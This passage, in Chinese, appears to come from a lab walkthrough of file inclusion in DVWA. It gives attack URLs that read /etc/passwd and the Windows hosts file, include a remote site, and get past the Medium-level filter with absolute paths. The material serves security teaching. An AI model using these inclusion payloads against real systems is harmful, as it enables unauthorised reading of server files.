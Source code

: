 ![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/53544f55a771bb9643db01f47c9b2716.png)
权限够的包含linux下的/etc/passwd等
window下： http://192.168.20.48/DVWA/vulnerabilities/fi/?page=C:\Windows\System32\drivers\etc\hosts

访问其他网站:http://192.168.20.48/DVWA/vulnerabilities/fi/?page=https://www.baidu.com
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/9b8ba8047e55300ce75675ca2c62eed1.png)


#### Medium
看代码
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/3697a01bd5250bfc753eff7a028fd669.png)
将https://,https://和../开头的屏蔽掉了，但是绝对路径的依然可访问
如：http://192.168.20.48/DVWA/vulnerabilities/fi/?page=D:\green\wamp\www\helloworld\if.php
